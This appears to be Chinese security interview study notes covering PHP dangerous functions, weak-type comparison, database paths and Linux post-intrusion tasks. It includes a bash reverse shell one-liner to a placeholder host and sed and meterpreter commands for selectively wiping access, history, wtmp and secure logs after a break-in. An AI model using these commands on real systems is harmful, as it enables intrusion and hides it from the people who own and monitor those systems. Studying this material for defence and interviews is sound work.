 文件读取：file_get_contents(),highlight_file(),fopen(),read file(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等

命令执行：system(), exec(), shell_exec(), passthru() ,pcntl_exec(), popen(),proc_open()
安全模式下绕过php的disable fuction

DL函数，组件漏洞，环境变量。
PHP弱类型

== 在进行比较的时候，会先将字符串类型转化成相同，再比较

如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换成数值并且比较按照数值来进行

0e开头的字符串等于0

### 3、数据库

各种数据库文件存放的位置

```
mysql:
/usr/local/mysql/data/ 
C:\ProgramData\MySQL\MySQL Server 5.6\Data\
oracle:$ORACLE_BASE/oradata/$ORACLE_SID/
```

### 4、系统

如何清理日志

meterpreter: clearev
入侵 Linux 服务器后需要清除哪些日志？

web日志，如apache的access.log,error.log。直接将日志清除过于明显,一般使用sed进行定向清除

```
e.g. sed -i -e ‘/192.169.1.1/d’
```

history命令的清除，也是对~/.bash_history进行定向清除

wtmp日志的清除，/var/log/wtmp

登录日志清除 /var/log/secure
LINUX
查看当前端口连接的命令有哪些？netstat 和 ss 命令的区别和优缺点

```
netstat -antp` `ss -l
```

ss的优势在于它能够显示更多更详细的有关TCP和连接状态的信息，而且比netstat更快速更高效。
反弹 shell 的常用命令？一般常反弹哪一种 shell？为什么?

```
bash -i>&/dev/tcp/x.x.x.x/4444 0>&1
```

通过Linux系统的/proc目录 ，能够获取到哪些信息，这些信息可以在安全上有哪些应用？

```
ls /proc
```

